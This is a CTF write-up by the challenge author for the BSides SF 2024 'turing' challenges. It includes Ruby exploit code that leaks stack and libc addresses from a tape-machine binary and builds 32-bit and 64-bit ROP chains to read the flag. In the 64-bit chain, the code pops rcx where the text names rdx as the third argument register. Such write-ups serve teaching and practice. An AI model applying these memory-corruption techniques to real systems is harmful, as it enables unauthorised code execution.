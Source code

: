 This is a write-up for `turing-complete`, `turing-incomplete`, and `turing-incomplete64` from the BSides San Francisco 2024 CTF!

`turing-complete` is a 101-level reversing challenge, and `turing-incomplete` is a much more difficult exploitation challenge with a very similar structure. `turing-incomplete64` is a 64-bit version of `turing-incomplete`, which isn't necessarily harder, but is different.

Let's look at the levels!

## `turing-complete`

My ideas doc said "Turing Machine?" from a long time ago. I don't really remember what I was thinking, but what I decided was to make a simple reversing challenge with a finite tape and 4 operations - go left, go right, read, and write. All commands and responses are binary (`1`s and `0`s), which is hinted at by the instructions being a series of binary bits.

The actual main loop, in C, is quite simple:

```c
  uint8_t tape[128];

  // ...write the flag to the tape...

  for(;;) {
    uint8_t a = r();
    if(a == 2) break;
    uint8_t b = r();
    if(b == 2) break;


    if(a == 0 && b == 0) {
      ptr++;
    } else if(a == 0 && b == 1) {
      ptr--;
    } else if(a == 1 && b == 0) {
      printf("%08b", *ptr);
    } else if(a == 1 && b == 1) {
      uint8_t value = (r() << 7) | (r() << 6) | (r() << 5) | (r() << 4) | (r() << 3) | (r() << 2) | (r() << 1) | (r() << 0);
      *ptr = value;
    }

    fflush(stdout);
  }
```

Since the flag is on the tape, the challenge is straight forward - just read it! That's where' `turing-incomplete` is going to vary :)

Here is my solution with comments:

```ruby
# Connect to the service
s = TCPSocket.new(host, port)

# Read the instructions
s.gets()

# Skip the part of the tape with boring words
1.upto(40) do
  s.write(RIGHT)
end

# Read each character, move right, and convert it to a character
flag = 1.upto(expected_flag().length).map do
  s.write(PRINT + RIGHT)
  s.read(8).to_i(2).chr
end.join
```

## `turing-incomplete`

`turing-incomplete` is exactly the same as `turing-complete`, but with one exception: the flag isn't loaded into the binary. And that's kind of a big deal, because now you have to get code execution!

I also compiled it with all the usual security protections, so you have to overcome ASLR and DEP and stack cookies and everything. But, since we have easy read/write up the stack, those can all be bypassed pretty easily. I also provided a copy of the appropriate `libc.so.6` so you don't have to grab your own copy.

You can grab the solution on the GitHub release, but I'll show and explain each part of it below.

### Stash the command

First, we need to stash a shell command (we're going to use `cat /home/ctf/flag.txt`):

```ruby
# Small offset to align us
s.write(RIGHT * 0x3)

# Use some unused stack space to store our command for later
s.write(RIGHT * 1000)

# Write the command to the stack, one byte at a time
COMMAND = "cat /home/ctf/flag.txt\0"
COMMAND.bytes.each do |b|
  write_8_bits_right(s, b)
end

# Go backwards - this rewinds to a point on the stack where we can reliably find
# a stack reference
s.write(LEFT * (1000 + COMMAND.length - 132))
```

We move the pointer way to the right so we aren't on a park of the stack that isn't going to get overwritten, then write the payload byte by byte.

### Leak a stack address

Second, we leak a stack address; starting with the last line from the previous example:

```ruby
# Go backwards - this rewinds to a point on the stack where we can reliably find
# a stack reference
s.write(LEFT * (1000 + COMMAND.length - 132))

# Read a stack address
STACK_ADDR = read_32_bits_right(s)

# Calculate where our command is, based on the known address and the 1000-byte
# offset
COMMAND_ADDR = STACK_ADDR - 0xc4 + 1000
puts "Command should be @ %x" % COMMAND_ADDR
```

From pure experimentation, I determined that the address 132 bytes from the start of the buffer is a stack address. The value points to 0xc4 bytes after the start of our buffer, so if we subtract 0xc4 then add 1000 bytes, we get a pointe to where our command is in memory. We can pass that value to `system()`, which we'll do later!

### Grab the return address

Third, we leak a libc address (specifically, the return address). Knowing one address in `libc.so.6` will let us determine any other address in `libc.so.6`! So we move up to the return address then read it:

```ruby
# Keep progressing up to the return address
s.write(RIGHT * 40)

# Read the original return address, then go back so we can overwrite it
ACTUAL_RETURN_ADDRESS = read_32_bits_right(s)
s.write(LEFT * 4)
puts 'Return address on the stack: %x' % ACTUAL_RETURN_ADDRESS

# Calculate the base address (ie, start of libc) - that'll let us figure out
# where the functions we want are
BASE_ADDRESS = (ACTUAL_RETURN_ADDRESS - RETURN_ADDRESS)
puts 'Base address: %x' % BASE_ADDRESS
```

### Overwrite the return address

And finally, we overwrite the return address (and ensuing stack addresses) with a very simple ROP chain:

```ruby
# Set up a small ROP chain to call system, then exit
write_32_bits_right(s, BASE_ADDRESS + SYSTEM) # Return address (from main())
write_32_bits_right(s, BASE_ADDRESS + EXIT) # Return address (from system())
write_32_bits_right(s, COMMAND_ADDR) # First argument to system()
write_32_bits_right(s, 0) # Return address (from exit()) - unused
write_32_bits_right(s, 0) # First argument to exit()
```

That'll return to `system()`, with the first parameter set to the address of the command (that we leaked earlier). `system()` will run that command, then return into `exit()` and exit cleanly. That part isn't necessary, I just like being polite!

That's pretty much it! Check out the full solution to see how those functions work, if you like.

## `turing-incomplete64`

`turing-incomplete64` is compiled from the exact same source as `turing-incomplete`, the only different is that it's compiled in 64-bit mode.

The exploit is largely the same as well. The numbers are different, but we leak the stack address and return address and everything identically. The only difference is the actual ROP payload:

```ruby
# Do a 3-element ROP chain - I don't know why system() isn't working, but this
# is!

# *** open(file, 0, 0)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, COMMAND_ADDR)

write_64_bits_right(s, BASE_ADDRESS + POP_RSI_RET)
write_64_bits_right(s, 0)

write_64_bits_right(s, BASE_ADDRESS + POP_RCX_RET)
write_64_bits_right(s, 0)

write_64_bits_right(s, BASE_ADDRESS + OPEN)

# *** read(5, buffer)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, 5)

write_64_bits_right(s, BASE_ADDRESS + POP_RSI_RET)
write_64_bits_right(s, COMMAND_ADDR)

write_64_bits_right(s, BASE_ADDRESS + POP_RCX_RET)
write_64_bits_right(s, expected_flag().length)

write_64_bits_right(s, BASE_ADDRESS + READ)

# *** puts(buffer)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, COMMAND_ADDR)

write_64_bits_right(s, BASE_ADDRESS + PUTS)

# *** exit(0)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, 0)

write_64_bits_right(s, BASE_ADDRESS + EXIT)

# Tell it we're quitting
s.write("q\n")
```

The first thing you might notice is the `POP_RDI_RET` and `POP_RSI_RET` nonsense - that's because the calling convention for amd64 passes arguments in `rdi`, `rsi`, `rdx`. That's different from x86, which passes arguments on the stack (in most cases). So we need to use a variety of pop + ret functions to set up the registers for each function call.

The other thing you might notice is that we're using `open` / `read` / `puts` instead of `system`. I don't know why `popen` and `system` don't work, but they would crash with a segfault. Those functions can be finnicky sometimes, so I didn't spend a lot of time on them. I considered using `mprotect`, like I did with another challenge, but decided to take the easy approach - just read the file and print it.

And it worked!

## Conclusion

That's it! Hope you enjoyed this write-up!
